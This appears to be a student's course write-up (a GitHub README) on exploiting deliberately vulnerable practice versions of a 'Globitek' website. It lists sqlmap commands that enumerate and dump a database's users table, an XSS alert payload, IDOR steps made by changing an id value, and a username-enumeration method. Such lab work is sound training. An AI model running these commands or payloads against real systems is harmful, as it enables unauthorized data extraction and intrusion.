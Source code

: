 # Cybersecurity_week8

## Six possible vulnerabilities:
- [x] Username Enumeration
- [x] Insecure Direct Object Reference
- [x] SQL Injection
- [x] Cross-Site Scripting
- [ ] Cross-Site Request Forgery
- [ ] Session Hijacking/Fixation
## Vulnerabilities I found and exploited:
- [x] Username Enumeration
- [x] Insecure Direct Object Reference
- [x] SQL Injection
- [x] Cross-Site Scripting
- [x] Bonus Objective 1:
  * Build on the SQL Injection vulnerbility. Experiment to see what other kinds of information one can get the database to reveal.
  
## **Blue** version of Globitek website 
**Vulnerability 1:** SQL Injection
  * **Steps:**
    1. Use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --current-db' to retrieve the database the website is currently using (which is "globitek_blue")
    2. Use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" -D globitek_blue --tables' to retrieve all of the tables that is in the database
    3. Use command: ''sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --dump -D globitek_blue -T users' to retrieve all users' information
  * **GIF walkthrough:**
    * ![sqli](https://user-images.githubusercontent.com/31838335/39098942-fed0c51e-463f-11e8-82c4-e410750e79d1.gif)
    
## **Green** version of Globitek website 
**Vulnerability 1:** Username Enumeration
  * **Steps:**
    1. Type in username
    2. Type in a random password
    3. Teep submitting the wrong password multiple times until the "failed logins" message shows up
  * **GIF walkthrough:**
    * ![usernameenum](https://user-images.githubusercontent.com/31838335/39099064-ef761ec8-4641-11e8-8094-556642464fc3.gif)
**Vulnerability 2:** Cross-Site Scripting
  * **Steps:**
    1. Go to Contact
    2. Submit a feedback with malicious code: <script>alert('xss')</script>
  * **GIF walkthrough:**
    * ![xss](https://user-images.githubusercontent.com/31838335/39099083-3bf6dbde-4642-11e8-9e3f-1f8d585dd0d9.gif)

## **Red** version of Globitek website 
**Vulnerability 1:** Insecure Direct Object Reference
  * **Steps:**
    1. Go to https://35.184.168.159/blue/public/salesperson.php?id=1
    2. Change the value of id to 10 or 11 would reveal information that should not be revealed
  * **GIF walkthrough:**
    * ![idor](https://user-images.githubusercontent.com/31838335/39099090-56e74dac-4642-11e8-84f7-111537caefb6.gif)

## ** Bonus Objective 1: **
  * **Steps:**
    1. Since we know the name of the database we can use sqlmap to retrieve all information in the database
    2. Sample code: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" -D globitek_blue'
  * **GIF walkthrough:**
    * ![bonus](https://user-images.githubusercontent.com/31838335/39099232-0afc4502-4645-11e8-90de-94fda8d999ae.gif)
